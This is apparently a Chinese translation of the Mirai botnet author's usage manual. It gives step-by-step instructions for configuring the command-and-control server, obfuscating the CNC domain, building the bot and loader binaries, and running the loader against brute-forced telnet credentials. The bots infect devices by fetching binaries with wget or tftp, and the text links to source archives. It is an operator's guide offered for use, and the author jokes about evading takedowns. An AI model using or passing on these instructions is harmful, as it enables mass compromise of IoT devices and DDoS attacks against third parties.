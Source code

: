Mirai 使用手册

#综述
- 和 CNC 建立连接, bots 会请求解析域名 (resolv.c/resolv.h) 并且连接到域名对应到IP.
- Bots 使用一种高级的 SYN 扫描器 (比qbot快近80倍速度, 少使用接近20倍资源)进行暴力telnet连接. 当发现暴力telnet成功连接, bot 会请求另一个域名上报成功信息. 这是连接到一个单独服务器自动加载到设备的结果.
- 暴力破解结果默认通过48101端口接收. 接收代码在tools目录下的scanListen.go (我曾经试过每秒接收500条 ). 如果采用debug 模式编译, 你能在debug目录看到二进制信息出现.

Mirai 使用一个传播机制自我复制, 但是我称他为 “实时加载”. 总的来说, bots 爆破结果, 发送结果到接收服务器, 将结果发送给加载器. 这个过程 (爆破 -> 接收 -> 加载 -> 爆破) 就是被称为“实时加载”的过程.

加载器能够通过配置多个IP地址解决linux端口限制问题 (可用端口限制, linux 65k连接问题). 我或许同时通过个5 IP有 60k - 70k 出口连接.
* 可能可以使用 用户态 TCP 更好的解决单机65k 问题
https://github.com/pkelsey/libuinet


#Bot配置
Bot 有些配置信息(table.c/table.h) （./mirai/bot/table.h）是混淆过的,  通常在源文件你可以找到大部分的配置信息描述. 然而,  ./mirai/bot/table.c 这个文件当中的一些配置你必须修改过后才能运行.

- TABLE_CNC_DOMAIN -  CNC 域名 -  mirai 对DDoS 攻击防御非常有趣, 其他人试图攻击我的CNC, 但是我更新IP的速度快过他们找到我新IP速度, lol. 无所谓了 :)
- TABLE_CNC_PORT - CNC 端口, 设置成23
- TABLE_SCAN_CB_DOMAIN - 接收器域名，当发现爆破结果, 这个域名用来接收结果
- TABLE_SCAN_CB_PORT - 接收器端口, 设置成48101.

在 ./mirai/tools 可以找到 enc.c 源文件，必须进行编译，编译输出的信息放到 table.c 源文件里

在 mirai 目录外运行
```
./build.sh debug telnet
```
如果你没有配置交叉编译，你可能会看到一些交叉编译错误，这个是正常的，对于工具编译没有什么影响。

现在, 在 ./mirai/debug 你可以看到二进制运行文件 enc. 混淆过的bot连接信息可以使用下面的例子:
```
./debug/enc string fuck.the.police.com
```
The output should look like this
```
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22
```

更新例子里的 TABLE_CNC_DOMAIN 值, 用 enc 工具生成的十六进制的一长串的字符串替换掉. 另外, 你看到 "XOR'ing 20 bytes of data".  源文件类似下面这样:

```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
```

替换过后源文件类似下面这样：
```
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com
```

这些配置有些是字符串有些是数字 (uint16 in network order / big endian).

#CNC配置
```
apt-get install mysql-server mysql-client
```
CNC 需要安装数据库才能使用.然后用下面的命令初始化数据库:

表结构如下:
CREATE DATABASE mirai;

CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);

CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);

CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);

创建数据库. 然后用下面命令增加用户,
```
INSERT INTO users VALUES (NULL, 'josh-G', 'mypasswordblahah', 0, 0, 0, 0, -1, 1, 30, '');
```

然后打开 ./mirai/cnc/main.go 源文件

编辑这些参数

```
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"
```

这些参数就是数据库地址和账号密码等信息


#安装配置交叉编译器
交叉编译很简单直接参考下面的地址执行，编译完成必须重启或者重新加载.bashrc环境变量

http://pastebin.com/1rRCc3aD

#编译 CNC+Bot
CNC, bot, 相关代码工具:
1) http://santasbigcandycane.cx/mirai.src.zip - ### THESE LINKS WILL NOT LAST FOREVER
![Alt text](http://i.imgur.com/BVc7qJs.png "Optional title")


2) http://santasbigcandycane.cx/loader.src.zip - ### THESE LINKS WILL NOT LAST FOREVER

怎样编译 + CNC
在 mirai 目录, 运行 build.sh 脚本.

```
./build.sh debug telnet
```
debug模式 会输出debug到 ./mirai/debug 目录（连接信息，状态等等）

```
./build.sh release telnet
```
产品模式 会输出版本到  ./mirai/release 目录（连接信息，状态等等）产生的信息更小（大概60k），编译所有运行文件格式 "mirai.$ARCH" 到./mirai/release目录


[size=x-large]编译 Echo 加载器[/size]
Loader reads telnet entries from STDIN in following format:
[code]ip:port user:pass[/code]
会检测有没有 wget 或者  tftp 并且试着下载，如果没有会自动 类似wget的二进制执行文件。
```
./build.sh
```
如果你有一个文件可以用于加载你可以这样使用
```
cat file.txt | ./loader
```

记住 ulimit! 命令设置系统限制

##其它:
懒得翻了... 反正就是遇到问题无人解答，自己解决。
